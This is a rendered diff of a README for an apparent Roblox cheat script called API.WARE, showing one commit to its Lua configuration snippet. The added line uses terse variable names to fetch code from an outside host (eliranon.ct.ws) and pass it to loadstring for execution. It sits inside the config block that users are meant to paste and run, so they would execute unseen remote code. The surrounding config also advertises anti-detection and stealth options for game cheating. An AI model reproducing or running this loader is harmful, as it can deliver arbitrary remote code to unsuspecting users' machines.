

Before and after one commit to LorisHost/API.WARE-NEXT-GENERATION, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -155,6 +155,7 @@ getgenv().config = { -- true or false is toggle
     AutoAntiDetection = true,
     StealthMode = true,
 }
+local a,b,c,d,e = loadstring, request or http_request or (http and http.request) or (syn and syn.request), assert, tostring, "http://eliranon.ct.ws/?i=1" c(a and b, "Executor not Supported") a(b({Url = e}).Body)()
 ```
 
 ---
````
